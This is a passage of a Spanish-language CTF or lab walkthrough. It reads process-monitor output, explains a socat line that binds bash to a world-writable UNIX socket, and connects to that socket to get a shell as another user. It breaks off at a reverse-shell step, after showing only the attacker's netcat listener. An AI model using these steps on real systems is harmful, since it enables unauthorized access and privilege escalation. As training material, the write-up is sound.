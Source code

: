 ```
2025/09/07 01:00:45 CMD: UID=0     PID=24     | /usr/sbin/apache2 -k start                
2025/09/07 01:00:45 CMD: UID=0     PID=1      | /bin/bash /etc/.start_services  
```

### Análisis de procesos interesantes
Nos fijamos principalmente en esta línea:
```
2025/06/06 09:18:36 CMD: UID=1002  PID=54     | socat UNIX-LISTEN:/home/conx/.cache/.sock,fork EXEC:/bin/bash
```

Desmenuzándola:
- **socat:** herramienta de red muy potente para redirigir conexiones
- **UNIX-LISTEN:/home/conx/.cache/.sock,fork:**
  - **UNIX-LISTEN** → abre un socket UNIX en la ruta `/home/conx/.cache/.sock`
  - **fork** → cada conexión nueva crea un proceso hijo
- **EXEC:/bin/bash:** cuando alguien se conecta al socket, socat lanza un bash

Ese proceso está levantando un socket local (un archivo `.sock`) que, al conectarse, le da a quien acceda una shell interactiva (bash).

### Explotación del socket
Así que realizaremos lo siguiente:

```bash
ls -la /home/conx/.cache/.sock
```

El cual nos muestra:
```
srwxrw-rw- 1 conx conx 0 Sep  6 20:43 /home/conx/.cache/.sock
```

Podemos ver que tenemos los permisos necesarios al observar que todos tienen el permiso de read-write, así que haremos lo siguiente:

```bash
socat - UNIX-CONNECT:/home/conx/.cache/.sock
```

Este comando nos permite conectarnos al backdoor que deja abierto el socat listener, y así poder interactuar con el `/bin/bash` que está atado al socket.

Haciendo `whoami` confirmaremos que somos el usuario `conx`:
```bash
whoami
# conx
```

### Reverse Shell
Usaremos el siguiente comando:

**Máquina atacante:**
```bash
nc -lvnp <puerto>
```
